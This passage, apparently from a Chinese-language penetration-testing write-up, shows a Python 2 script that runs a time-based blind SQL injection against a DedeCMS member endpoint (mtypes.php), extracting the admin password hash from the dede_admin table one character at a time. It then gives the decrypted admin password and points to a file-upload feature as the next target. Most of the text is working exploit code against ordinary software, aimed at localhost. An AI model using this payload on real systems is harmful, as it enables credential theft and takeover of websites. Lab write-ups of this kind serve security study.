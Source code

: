 ```python
        s = "http://localhost/d2/member/mtypes.php?dopost=save&_FILES[mtypename][name]=.xxxx&_FILES[mtypename][type]=xxxxx&_FILES[mtypename][tmp_name][a'%20and%20`'`.``.mtypeid%20or%20if(ascii(substr((select%20pwd%20from%20dede_admin%20limit%201),"+s1+",1))%3d"+s2+",sleep(3),0)%20and%20mtypeid%3d1%23]=w&_FILES[mtypename][size]=.xxxx"
 
        start_time = time.time()
 
        try:
 
            req = urllib2.Request(s)
                        
            req_data=opener.open(req,timeout=10)
 
            if time.time() - start_time > 2.0:
 
                name = name+p
 
                print name+'.....'
 
        except urllib2.URLError,e:
 
             break
 
print 'password is %s'  % name
```

得到后台密码，密文 `812df726be884ddcfc41` 解密：`admin7788`

### 网站后台渗透

发现后台有文件上传的功能

<img src=".\图片\Snipaste_2023-05-09_10-49-19.png" alt="Snipaste_2023-05-09_10-49-19" style="zoom:67%;" />
